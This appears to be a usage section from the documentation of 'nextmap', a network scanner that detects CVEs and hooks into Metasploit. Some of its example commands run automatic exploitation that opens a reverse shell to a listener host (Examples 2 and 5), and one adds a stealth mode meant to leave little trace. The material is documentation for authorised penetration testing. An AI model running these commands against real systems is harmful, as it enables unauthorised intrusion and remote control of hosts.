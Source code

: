 
## 🎓 Usage Examples

### Example 1: Basic CVE Scan with Dry-Run
```bash
nextmap -t 192.168.1.100 -p 22,80,443,445,3389 -s --cve-scan --msf-exploit --msf-dry-run
```
**Result**: Scans target, detects CVEs, shows exploitation plan without executing.

### Example 2: Auto-Exploitation with Custom Configuration
```bash
nextmap -t vulnerable.lab.local -p top100 -s --cve-scan --msf-exploit --msf-lhost 192.168.1.50 --msf-lport 4444
```
**Result**: Full scan, CVE detection, automatic exploitation with reverse shell to 192.168.1.50:4444.

### Example 3: Multiple Targets with HTML Report
```bash
nextmap -t 192.168.1.0/24 -p 445,3389 -s --cve-scan --msf-exploit --msf-dry-run -o html -f pentest_report.html
```
**Result**: Network-wide scan, CVE detection, exploitation preview, professional HTML report.

### Example 4: Stealth Mode with MSF
```bash
nextmap -t target.com -p top100 -s --cve-scan --msf-exploit --msf-dry-run --stealth-mode shadow -x paranoid
```
**Result**: Low-footprint scan with exploitation planning.

### Example 5: Full Feature Stack
```bash
nextmap -t 10.0.0.50 -p top1000 -s -O --cve-scan --msf-exploit --msf-lhost 10.0.0.25 --msf-lport 5555 -o json -f results.json
```
**Result**: OS detection, CVE scan, auto-exploitation, JSON output with all data.

---

## 🔄 Migration Guide

### From v0.3.1 → v0.3.2

**No Breaking Changes** - All existing functionality preserved.

#### What's New
```bash
# OLD (v0.3.1)
nextmap -t target.com -p 80,443 -s --cve-scan

# NEW (v0.3.2) - Add Metasploit capabilities
nextmap -t target.com -p 80,443 -s --cve-scan --msf-exploit --msf-dry-run
```
